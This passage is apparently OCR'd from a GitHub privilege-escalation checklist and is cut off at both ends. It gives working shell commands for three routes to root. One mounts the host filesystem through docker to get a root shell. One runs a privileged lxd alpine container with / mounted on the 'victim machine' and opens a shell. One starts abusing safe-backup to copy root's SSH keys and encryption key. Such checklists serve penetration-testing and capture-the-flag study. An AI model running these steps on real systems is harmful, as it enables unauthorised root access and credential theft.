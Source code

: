 	# this will spawn a root shell
	docker run -v /:/mnt --rm -it alpine chroot /mnt sh
	```
- [ ] Is the user beloging to lxd?
	```bash
	# clone the repo and build an alpine image
	git clone https://github.com/saghul/lxd-alpine-builder
	cd lxd-alpine-builder
	sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
	sudo ./build-alpine -a i686

	# transfer the image to the target, then import the image
	lxc image import ./alpine*.tar.gz --alias myimage # It's important doing this from YOUR HOME directory on the victim machine, or it might fail.

	# before running the image, start and configure the lxd storage pool as default 
	lxd init

	# run the image
	lxc init myimage mycontainer -c security.privileged=true

	# mount the /root into the image
	lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

	# pop the shell
	lxc start mycontainer
	lxc exec mycontainer /bin/sh
	```
- [ ] Ability to use [safe-backup](https://github.com/scrwdrv/safe-backup) as another user (root)?
	```bash
	# you can install safe-backup on your system, now you can
	# potentially backup whatever you want e.g.: your root public ssh key!

	## Preparation
	### ON ATTACKING MACHINE
	sudo safe-backup -i /root/.ssh/ -o /tmp/backup
	# copy the safe-backup's encryption key to the /tmp/backup directory
	sudo cp /root/.config/safe-backup/key.safe /tmp/backup/key.safe
	# transfer them to the target machine
